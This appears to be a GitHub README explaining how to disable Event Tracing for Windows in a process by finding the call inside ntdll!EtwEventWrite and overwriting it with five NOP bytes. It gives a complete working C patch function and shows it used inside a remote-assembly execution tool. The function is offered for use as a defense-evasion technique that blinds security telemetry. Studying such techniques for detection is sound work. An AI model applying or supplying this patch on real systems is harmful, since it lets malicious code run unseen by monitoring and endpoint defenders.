 # Patching ETW 

### Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications and kernel-mode drivers.  
### ntdll!EtwEventWrite is responsible for writing an event , it's not actually the function that do the Event Writing job, by reversing it, we can see that it calls ntdll!EtwpEventWriteFull that do the actual Event Writing :  
  
![IDAetw](https://user-images.githubusercontent.com/110354855/198856050-d5a3d460-0ad7-494b-abb8-018333d2f497.png)  
   
### this call is done at offset (0x214 -  0x1f0 = 0x24) and it takes 5 bytes, the idea here is to write a program that identify 0xe8 the opcode of the call instruction and overwrite this call memory with 5 bytes , so that the call will never done  
  

![TheCall](https://user-images.githubusercontent.com/110354855/198856198-a66c74e6-5833-47d4-a82c-1646206bf61b.png)

  
![EtwPatch](https://user-images.githubusercontent.com/110354855/198856224-12901961-150b-4116-946f-ad149705dc96.png)

### Here is the full Patch function :  
```c
void patchEtwpEventWriteFull(OUT HANDLE& hProc) {

    void* etwAddr = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "EtwEventWrite");

    for (BYTE offset = 0; offset <= 100; offset++) {
        if (*((PBYTE)etwAddr + offset) == 0xe8 && *((PBYTE)etwAddr + offset + 9) == 0xc3) {
            char etwPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };

            DWORD lpflOldProtect = 0;
            unsigned __int64 memPage = 0x1000;
            void* etwAddr_bk = (void*)(((INT_PTR)etwAddr + offset));;

            NTSTATUS NtProtectStatus1 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus1)) {
                printf("[!] Failed in NtProtectVirtualMemory1 (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtWriteStatus = NtWriteVirtualMemory(hProc, (LPVOID)((INT_PTR)etwAddr + offset), (PVOID)etwPatch, sizeof(etwPatch), (SIZE_T*)nullptr);
            if (!NT_SUCCESS(NtWriteStatus)) {
                printf("[!] Failed in NtWriteVirtualMemory (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtProtectStatus2 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus2)) {
                printf("[!] Failed in NtProtectVirtualMemory2 (%u)\n", GetLastError());
                return;
            }
        }
        if (*((PBYTE)etwAddr + offset) == 0xc3) {
            break;
        }
    }
    

    std::cout << "[+] Patched etw!\n";

}
```
### Let's test it inside [ExecRemoteAssembly](https://github.com/D1rkMtr/ExecRemoteAssembly)  
  
  
https://user-images.githubusercontent.com/110354855/198856339-644c09c0-7299-4533-9175-716d639fb216.mp4  
  
## As you can see the ntdll!EtwEventWrite failed to write Event for the current process after patching it  




